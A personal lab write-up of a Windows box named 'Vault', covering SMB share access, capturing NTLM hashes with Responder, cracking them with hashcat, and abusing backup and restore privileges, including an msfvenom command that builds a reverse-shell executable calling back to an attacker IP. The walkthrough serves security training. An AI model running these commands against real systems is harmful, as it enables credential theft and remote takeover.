 # Vault

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

i add the domain in my hosts file and look for anonymous access and smb shares:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The write permission on a share is rather unusual to my knowledge in those types off boxes but i already saw it during some previous stuff so i tried using responder to catch some NTML creds:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

this is rather strange since i did not do anything, maybe something to do with the fact that i added the domain in my hosts file idk. since i won't be lucky like this every time here is a good article about abusing NTLM relay attacks:

{% embed url="https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/" %}

Or this one:

{% embed url="https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html" %}

Then i launch my hashcat:

```
hashcat -m 5600 /usr/share/wordlists/rockyou.txt.gz ntmlhash.txt
```

{% hint style="info" %}
_**added after completing the box**_: I looked at the WU to maybe discover other routes or techniques and this writeup does a very good job at explaining how to exploit writeable shares&#x20;
{% endhint %}

and i discovered the password and quickly understand why this box is rated easy:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok i didn't say anything i can't read proof.txt yet:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But i quickly see that i have SeBackupPrivilege

{% embed url="https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md" %}

So i follow all the steps and manage to dump the admin hash:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and it does not work lol:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I looked and this account does not have winrm rights, ouch the box seems a bit trickier than expected

I thought to myselft that i jumped on SeBackupPrivilege so quickly that i did not look into the other privileges such as the restore privilege:

{% embed url="https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------" %}

After looking at how the script works we need to craft a reverse shell exe to use it as an argument:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.51 LPORT=80 -f exe -o reverse.exe
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

for some reason it did not work until i put the absolute path of reverse.exe
